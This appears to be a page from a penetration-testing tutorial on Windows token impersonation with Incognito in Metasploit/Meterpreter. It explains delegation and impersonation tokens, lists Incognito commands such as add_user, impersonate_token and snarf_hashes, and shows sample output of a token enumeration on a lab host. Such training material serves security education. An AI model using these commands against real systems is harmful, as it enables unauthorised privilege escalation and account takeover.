 ## Incognito

`Incognito` is an application that allows us to impersonate user tokens when successfully compromising a system. It was integrated into Metasploit and ultimately into Meterpreter. In simple terms, tokens are similar to web cookies. They act as temporary keys that grant access to systems and networks without requiring repeated authentication for each action. Incognito leverages this concept much like cookie-stealing attacks, by replaying the stolen token (temporary key) during authentication requests to bypass credential verification.

In Incognito, we can see two main types of tokens:

1. `Delegate Tokens`

- Used for interactive logons, such as logging into a machine locally or via Remote Desktop (RDP). These tokens allow processes to access network resources on behalf of the user.

1. `Impersonate Tokens`

- Used for non-interactive sessions, such as mapping network drives or executing domain logon scripts. These tokens enable processes to act as the user within a limited scope.

```cmd-session
Incognito Commands
==================

    Command              Description
    -------              -----------
	add_group_user       Attempt to add a user to a global group with all tokens
    add_localgroup_user  Attempt to add a user to a local group with all tokens
    add_user             Attempt to add a user with all tokens
    impersonate_token    Impersonate specified token
    list_tokens          List tokens available under current user context
    execute -c           Enable communication by console
    snarf_hashes         Snarf challenge/response hashes for every token

```

The command below identifies if there are any valid tokens on this system.

```cmd-session
C:\> C:\Tools\incognito.exe list_tokens -u

[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Listing unique users found

Delegation Tokens Available
============================================
LEGACY\normal.user
LEGACY\administrator
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-1

Impersonation Tokens Available
============================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
NT AUTHORITY\NETWORK SERVICE
Window Manager\DWM-2

Administrative Privileges Available
============================================
SeAssignPrimaryTokenPrivilege
SeCreateTokenPrivilege
SeTcbPrivilege
SeTakeOwnershipPrivilege
```